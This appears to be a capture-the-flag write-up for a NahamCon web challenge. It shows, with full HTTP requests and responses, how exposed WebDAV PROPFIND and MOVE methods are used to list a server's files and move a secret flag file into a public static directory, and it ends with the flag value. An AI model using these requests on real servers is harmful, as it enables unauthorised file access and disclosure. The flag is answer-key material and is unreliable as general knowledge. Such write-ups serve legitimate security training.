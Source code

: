 
# Challenge Name: The Davinci Code


![date](https://img.shields.io/badge/date-24.05.2024-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-50-blue.svg)  

## Description

Author: @JohnHammond#6971  
  
Uhhh, someone made a Da Vinci Code fan page? But they spelt it wrong, and it looks like the website seems broken...  
  
**Press the `Start` button on the top-right to begin this challenge.**

**Connect with:**  

- [http://challenge.nahamcon.com:32230](http://challenge.nahamcon.com:32230/)

## Detailed solution

![Pasted image 20240525235157](https://github.com/BaadMaro/CTF/assets/72421091/bdc15164-4cab-4981-b054-d33937ac2f19)

The button has the page /code which is a debug data exception with the Werkzeug traceback interpreter.
http://challenge.nahamcon.com:32230/code

Nothing interseted in the page

If we check OPTIONS we can identify some HTTP methods

```http
OPTIONS /code HTTP/1.1
Host: challenge.nahamcon.com:32230
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: .AspNetCore.Antiforgery.VyLW6ORzMgk=CfDJ8JFjXbWaKCBMqB4nM6SpO995LIsX6YpFlIWoUFGhuVYKW-uCS6Y3ssTeI-R0PQZp_iLlXFhuj1brxWsT17JKx2OZkBDlf5X50-fovmkk5xABQxINcv7uPEhf-jWW9bRSq-E7w48W_8i-w1IhPtllB1c
Connection: keep-alive

```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sat, 25 May 2024 22:54:56 GMT
Content-Type: text/html; charset=utf-8
Allow: PROPFIND, HEAD, OPTIONS, MOVE, GET
Content-Length: 0
Connection: close
```

We got PROPFIND and MOVE. It's used with web DAV which mentioned in the challenge as DAVinci

We can get files location with PROPFIND and use MOVE to place the flag in a accessible directory

```
PROPFIND / HTTP/1.1
Host: challenge.nahamcon.com:32230
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: .AspNetCore.Antiforgery.VyLW6ORzMgk=CfDJ8JFjXbWaKCBMqB4nM6SpO995LIsX6YpFlIWoUFGhuVYKW-uCS6Y3ssTeI-R0PQZp_iLlXFhuj1brxWsT17JKx2OZkBDlf5X50-fovmkk5xABQxINcv7uPEhf-jWW9bRSq-E7w48W_8i-w1IhPtllB1c
Connection: keep-alive


```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sat, 25 May 2024 22:57:48 GMT
Content-Type: application/xml; charset=utf-8
Content-Length: 1108
Connection: close

<D:multistatus
	xmlns:D="DAV:">
	<D:response>
		<D:href>/</D:href>
		<D:propstat>
			<D:prop>
				<D:message>WebDAVinci Code</D:message>
				<D:directory>True</D:directory>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/__pycache__</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>__pycache__</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/templates</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>templates</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/app.py</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>app.py</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/static</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>static</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/the_secret_dav_inci_code</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>the_secret_dav_inci_code</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
</D:multistatus>
```

Secret location /the_secret_dav_inci_code

```http
PROPFIND /the_secret_dav_inci_code HTTP/1.1
Host: challenge.nahamcon.com:32230
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: .AspNetCore.Antiforgery.VyLW6ORzMgk=CfDJ8JFjXbWaKCBMqB4nM6SpO995LIsX6YpFlIWoUFGhuVYKW-uCS6Y3ssTeI-R0PQZp_iLlXFhuj1brxWsT17JKx2OZkBDlf5X50-fovmkk5xABQxINcv7uPEhf-jWW9bRSq-E7w48W_8i-w1IhPtllB1c
Connection: keep-alive

```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sat, 25 May 2024 22:58:52 GMT
Content-Type: application/xml; charset=utf-8
Content-Length: 453
Connection: close

<D:multistatus
	xmlns:D="DAV:">
	<D:response>
		<D:href>/the_secret_dav_inci_code</D:href>
		<D:propstat>
			<D:prop>
				<D:message>WebDAVinci Code</D:message>
				<D:directory>True</D:directory>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/the_secret_dav_inci_code/flag.txt</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>flag.txt</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
</D:multistatus>
```

The flag is located at /the_secret_dav_inci_code/flag.txt

We can move it to static directory using MOVE method

```http
MOVE /the_secret_dav_inci_code/flag.txt HTTP/1.1
Host: challenge.nahamcon.com:32230
Destination: /static/flag.txt
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: .AspNetCore.Antiforgery.VyLW6ORzMgk=CfDJ8JFjXbWaKCBMqB4nM6SpO995LIsX6YpFlIWoUFGhuVYKW-uCS6Y3ssTeI-R0PQZp_iLlXFhuj1brxWsT17JKx2OZkBDlf5X50-fovmkk5xABQxINcv7uPEhf-jWW9bRSq-E7w48W_8i-w1IhPtllB1c
Connection: keep-alive


```

```http
HTTP/1.1 204 NO CONTENT
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sat, 25 May 2024 23:00:23 GMT
Content-Type: text/html; charset=utf-8
Connection: close
```

Let's check the flag http://challenge.nahamcon.com:32230/static/flag.txt

![Pasted image 20240526000206](https://github.com/BaadMaro/CTF/assets/72421091/00324271-5e0a-40d2-9610-f288590e43cf)

## Flag

```
flag{2bc76964262b3a1bbd5bc610c6918438}
```
